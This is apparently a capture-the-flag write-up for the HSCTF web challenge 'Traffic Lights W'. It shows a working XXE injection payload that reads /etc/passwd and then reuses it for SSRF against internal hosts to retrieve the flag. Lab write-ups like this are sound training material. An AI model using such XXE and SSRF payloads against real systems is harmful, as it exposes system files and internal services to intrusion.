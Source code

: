 # Traffic Lights W

## Problem

```
🚦Can you figure out what's going on with this shady company?

https://traffic-light-w.web.hsctf.com/

Author: meow
```

## Solution

The #1001 firmware link redirects us to a page that allows us to upload XML code. This is a clue for us to
conduct an XXE injection. We use the injection code as per example below:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd/">]>
<root>
  <content>&xxe;</content>
</root>
```

Submitting this code on the firmware upload link will give us the contents of `/etc/passwd/`:

![](images/trafficw_etcpasswd.PNG)

Now we need to conduct an SSRF on the web server using the XXE. We notice that the index page contains some interesting information about 
hostnames and ports:
![](images/trafficw1.PNG)


Since #1001 and #1004 are the only 2 active points, we try both `http://traffic-lights-1001:80` and 
`http://traffic-lights-1004:80` as SYSTEM input in the XXE injection. The latter returns the flag.
![](images/trafficw_final.PNG)

Flag: `flag{shh_im_mining_bitcoin}`